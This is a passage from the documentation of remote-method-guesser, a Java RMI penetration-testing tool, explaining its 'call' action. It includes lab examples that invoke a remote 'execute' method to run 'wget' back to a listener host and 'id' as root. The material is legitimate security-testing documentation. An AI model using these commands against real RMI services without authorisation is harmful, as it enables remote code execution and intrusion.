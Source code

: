 By using *remote-method-guesser's Plugin System*, it is also possible to bind custom objects to the *RMI registry*. To learn more about
the *Plugin System*, please refer to the [documentation folder](./docs/rmg/plugin-system.md).


#### call

Using *remote-method-guesser's* ``call`` action, you can invoke remote methods without writing any *Java code*. Consider the
method ``String execute(String cmd)`` exists on the remote server. This method sounds promising and you may want to invoke
it using a regular *Java RMI call*. This can be done by using the following command:

```console
[qtc@devbox ~]$ rmg call 172.17.0.2 9010 '"wget 172.17.0.1:8000/worked"' --signature 'String execute(String cmd)' --bound-name plain-server
[qtc@devbox www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [30/Nov/2021 07:19:06] "GET /worked HTTP/1.1" 200 -
```

Notice that calling remote methods does not create any output by default. To process outputs generated by the ``call`` action, you need
to use *remote-method-guesser's* [plugin system](./docs/rmg/plugin-system.md) and register a ``ResponseHandler`` or use the default
`GenericPrint` plugin. `GenericPrint` is inlcuded into *remote-method-guesser* by default and can be activated by using the `--show-response`
option.

```console
[qtc@devbox remote-method-guesser]$ rmg call 172.17.0.2 9010 '"id"' --signature 'String execute(String cmd)' --bound-name plain-server --show-response
[+] uid=0(root) gid=0(root) groups=0(root)
```

During the ``call`` action, the provided arguments are evaluated as *Java expression* by inserting them into the following template:
``new Object[]{ arg1, arg2, arg3, ... }``. Therefore, you need to make sure that your provided arguments fit into that pattern. E.g.
using ``"id"`` as an argument results in an error, as the argument is passed as ``id`` to *remote-method-guesser* and the resulting
expression ``new Object[]{ id }`` is not a valid *Java expression*. Instead, you need to use ``'"id"'`` as this leads to ``new Object[]{ "id" }``,
which is valid.

Moreover, primitive types need to be specified in their corresponding object representation (e.g. ``new Integer(5)`` instead of ``5``). Otherwise they
cannot be used within the ``Object[]`` array, that is created by the *Java expression*. During the *RMI call*, the corresponding arguments are used
as intended and will fit your specified method signature. For more complex use cases, you can also define a custom ``ArgumentProvider`` by using 
*remote-method-guessers* [plugin system](./docs/rmg/plugin-system.md).


#### codebase
